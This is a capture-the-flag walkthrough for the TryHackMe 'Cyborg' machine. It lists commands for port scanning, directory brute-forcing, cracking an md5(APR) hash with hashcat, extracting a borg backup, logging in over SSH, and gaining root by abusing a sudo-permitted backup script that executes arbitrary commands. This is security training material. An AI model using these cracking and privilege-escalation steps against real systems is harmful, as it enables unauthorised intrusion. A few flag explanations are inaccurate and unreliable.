

# TRYHACKME – Cyborg (CTF)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

Directories found:

/admin

/etc

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

**`cat user.txt`**

List the user privileges to see what we can do with this user

**`sudo -l`**

alex can run this script as “sudo”

`cd /etc/mp3backups`

**`cat backup.sh`**

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

**`sudo ./backup.sh -c “cat /root/root.txt”`**

